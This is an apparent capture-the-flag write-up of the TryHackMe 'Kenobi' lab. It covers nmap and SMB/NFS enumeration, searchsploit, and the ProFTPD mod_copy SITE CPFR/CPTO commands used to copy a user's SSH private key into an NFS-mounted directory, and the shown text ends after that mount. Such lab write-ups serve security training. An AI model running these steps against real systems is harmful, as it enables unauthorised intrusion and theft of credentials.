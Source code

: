 # Kenobi
My own Writeup of machine Kenobi (Tryhackme)

¡¡¡ IMPORTANT !!!
### First of all, connect to your tryhackme vpn.
¡¡¡ IMPORTANT !!!

1. Scan the machine, i use this command to scan open ports in the machine:

````nmap -T5 -p- -n -v <ip>````
  
![Screenshot_1](https://user-images.githubusercontent.com/80575736/111028536-849d6380-83f7-11eb-8356-e13b67d6fe01.png)

With this information we can show a few open ports, for example port 21 (ftp), port 22 (ssh), port 111 (rpcbind) port 445 (smb), port 139 (NetBios) and port 445 (Shared_folders SMB)

In this machine we have to explotate SMB shared folders port (445), and ftp (21)

2. When we have open ports in the machine, we have to try internal nmap scripts to see a few vulnerabilities. We can try with this:

```nmap --script=vuln <ip> ```

For my i try this command and works better for me:

``` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

![Screenshot_2](https://user-images.githubusercontent.com/80575736/111028824-87995380-83f9-11eb-881f-44023f30b244.png)

This command show the shared folders of the vulnerable machine, and we can watch a share with name "anonymous".

3. Connect with smbclient to see what there is in.

``` smbclient //<ip>/shared_folder```

![Screenshot_3](https://user-images.githubusercontent.com/80575736/111029377-b533cc00-83fc-11eb-8e64-8c7367b52469.png)

To show subfolders and files, we can use command ```ls``` like in linux terminal.

![Screenshot_16](https://user-images.githubusercontent.com/80575736/111029450-ef04d280-83fc-11eb-8ffb-360bad8ad4dd.png)

We see a  intersting file name log.txt

4. Copy the previous file (log.txt) in our machine.

```smbget -R smb://<ip>/shared_folder```
This command copy all folders and files recursively.

![Screenshot_4](https://user-images.githubusercontent.com/80575736/111029700-55d6bb80-83fe-11eb-90cc-44e8729870bc.png)

When we read file log.txt, we can appreciate:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

5. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

![Screenshot_5](https://user-images.githubusercontent.com/80575736/111030205-4e64e180-8401-11eb-85a2-7e27491d9d16.png)

This command provide us folder of file systems mounted by clients. in our case /var 

6. We go to search a exploit of the ftp server of the vulnerable machine "proftpd".

``` searchsploit proftpd 1.3.5```

![Screenshot_6](https://user-images.githubusercontent.com/80575736/111030486-cb448b00-8402-11eb-8d99-e29502e59f14.png)

We execute the previous command, and its show three exploits of service "proftpd"


7. Go to connect to ftp server via netcat with this command:

``` nc <ip> <port> ```

![Screenshot_7](https://user-images.githubusercontent.com/80575736/111030610-8a00ab00-8403-11eb-9848-c6991de16fb9.png)

Now we are inside ftp server, and we have to use this command to copy id_rsa to before connect via ssh to gain access with the user Kenobi.

```site CPFR /home/kali/.ssh/id_rsa ```

``` site CPTO /var/tmp/id_rsa```

![Screenshot_8](https://user-images.githubusercontent.com/80575736/111030943-54f55800-8405-11eb-9bd9-4099600dcf03.png)

8. Lets mount the /var/tmp directory to our machine, to be able to copy id_rsa in our machine. (We )

```sudo mkdir /mnt/kenobiNFS```

```sudo mount <ip>:/var /mnt/kenobiNFS```


![Screenshot_9](https://user-images.githubusercontent.com/80575736/111031122-3f346280-8406-11eb-8959-65e2b80a2ffc.png)
![Screenshot_10](https://user-images.githubusercontent.com/80575736/111031123-4196bc80-8406-11eb-8578-14015cbf7143.png)

We can check the mount with this command:

```ls -la /mnt/kenobiNFS```

![Screenshot_11](https://user-images.githubusercontent.com/80575736/111031169-668b2f80-8406-11eb-88d2-f7811e5ab8d9.png)



